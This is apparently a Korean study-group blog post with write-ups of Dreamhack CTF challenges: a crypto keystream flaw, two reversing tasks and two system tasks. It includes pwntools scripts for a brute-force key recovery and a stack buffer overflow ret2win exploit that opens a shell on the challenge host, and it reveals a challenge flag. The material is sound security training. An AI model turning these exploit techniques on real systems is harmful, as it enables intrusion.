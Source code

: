 ```yaml
---
title: "[CAUTION] 스터디 - 1"
categories:
  - study
tags:
  - dreamhack
toc: true
toc_sticky: true
toc_label: "스터디 - 1"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Caution 스터디 1회차(5월 첫째 주)
{: .notice--warning}

# 암호학 - 1

문제 : https://dreamhack.io/wargame/challenges/452/

```python
def encrypt(s, k):
    res = ""
    if k <= len(s):
        _print("[!] key shold be larger then len(pt) for safty!!")
        return ""
    for i, c in enumerate(s):
        enc = (get_random_u8() + key * i) % 0xff
        enc = ord(c) ^ enc
        res += hex(enc)[2:].rjust(2, "0")
    return res
```

위의 코드와 같은 방식으로 암호화를 수행한다.

취약점이 발생하는 부분은 %0xff 이다.

```key stream : (get_random_u8() + key * i) % 0xff``` 부분을 잘 생각해 보면 그 결과로 0~254 까지의 결과가 나오는 것을 알 수 있다.

이것이 왜 문제인지 생각해보자. 임의의 평문 'X'에 대해서 암호화를 통해서 나올 수 있는 모든 결과는 8bit 결과이므로 00000000 ~ 11111111 로 총 256개이다.

근데 현재 키 스트림은 0~254까지의 범위를 가지므로 255개의 키 스트림이 있다.

즉, 임의의 문자 'X'에 대해서 계속 암호화를 수행하면 'X' xor '11111111' 의 결과가 누락되게 된다.

그러면 우리는 하나의 글자에 대해서 계속 암호화를 수행하면서 어떠한 결과가 나왔는지를 전부 기록한 뒤에, 0-255중에 한 번도 안나온 결과를 찾으면 된다. 그러면 그 숫자가 바로 
'X' xor '11111111'이 되는 것이다.

이를 코드로 구현하면 다음과 같다. 모든 flag 하나하나에 대해서 bruteforce를 하다보니, 결과가 나오는데 시간이 꽤 걸린다. 

```python
from pwn import *


p = remote('host1.dreamhack.games',10819)

key = 255

p.sendlineafter('>> ','3')
p.sendlineafter('key >> ','255')
p.recvuntil('result : ')

enc_flag = p.recvline()
flag_len = len(enc_flag) // 2
flag_set = [list(range(256)) for _ in range(flag_len)]
flag = [0 for x in range(flag_len)]

while True:
    p.sendlineafter('>> ','3')
    p.sendlineafter('key >> ','255')
    p.recvuntil('result : ')
    
    enc_flag = bytes.fromhex(p.recvline()[:-1].decode())

    for i in range(flag_len):
        # flag_set에서 찾는 글자 하나씩 삭제
        if flag_set[i].count(enc_flag[i]) == 1:
            flag_set[i].remove(enc_flag[i])
        
        # 한개 남은 결과에 255 xor 하면 원래 글자
        if len(flag_set[i]) == 1:
            flag[i] = chr(flag_set[i][-1] ^ key )

    print([len(x) for x in flag_set])    
    if 0 not in flag:
        break
            
print(''.join(flag))

```


![image](https://user-images.githubusercontent.com/33647663/167166094-8731c708-f5ae-4399-b1f7-a965f2af6329.png)


# 리버싱 - 1

리버싱 기초문제

IDA로 열면 바로 strcmp가 보임

![image](https://user-images.githubusercontent.com/33647663/167167482-413fd717-1ab8-453a-84bd-3545fbd6307d.png)


# 리버싱 - 2

![image](https://user-images.githubusercontent.com/33647663/167168558-de394732-9760-4364-b18b-12707b202817.png)


각각의 input(a1)에 대해서, aC[] 배열과 비교를 하고 있다.
총 길이는 18글자 이며, aC배열은 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167168899-099070a1-4fb3-4078-bc26-6c82a93ac5ae.png)

데이터 타입을 array로 바꾸면 더 보기 쉽다.

![image](https://user-images.githubusercontent.com/33647663/167169712-de730a70-d4b6-44e2-8287-d016aecbc849.png)

마지막 null문자를 제외하면 총 17글자로 
flag는 'Comp4re_the_arr4y'이다.


# 시스템 - 1
문제의 코드는 다음과 같다.

```c
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

argv[1] - 0x1234 값을 fd로 하여 해당 fd로 데이터를 읽어온다.

stdin 이 fd 0 이므로 argv[1]로 0x1234인 4660 데이터를 넘겨준다.

넘겨주면 사용자의 입력값을 기다리게 되고, 이때 비교 문자열인 'LETMEIN'을 입력해 주면 flag를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167191157-e2c61f67-9c03-48e7-baca-1b795ae87d48.png)



# 시스템 - 2

메인함수를 시작할때 스택 상태는 아래와 같다


![image](https://user-images.githubusercontent.com/33647663/167182991-88bc7d37-2f97-4069-aae8-dffe211841a0.png)

그림으로 표현해보면 스택 상태는 다음과 같다

![image](https://user-images.githubusercontent.com/33647663/167183968-75242f51-75c8-469a-b592-59392ff0ed25.png)

buf에 입력 받을때 bof 취약점이 있으니, 56byte는 더미로 채워주고 8 byte를 get_shell() 함수의 주소를 입력하여 익스플로잇 한다.

get_shell()의 주소는 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167184372-2064a6d2-7f00-4bf1-b8d0-1ee0331d7bcf.png)

쉘 코드는 다음과 같이 작성해 준다.

```python
from pwn import *

p = remote('host1.dreamhack.games',21598)
context.log_level= 0

# get_shell() : 0x00000000004006aa
p.recvuntil(b'Input: ')
payload = 'A' * 0x30
payload += 'B' * 8
payload += '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)
p.interactive()
```


실행하면 다음과 같이 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167182774-e216d7eb-0a9c-4465-b75f-5b9cc969751b.png)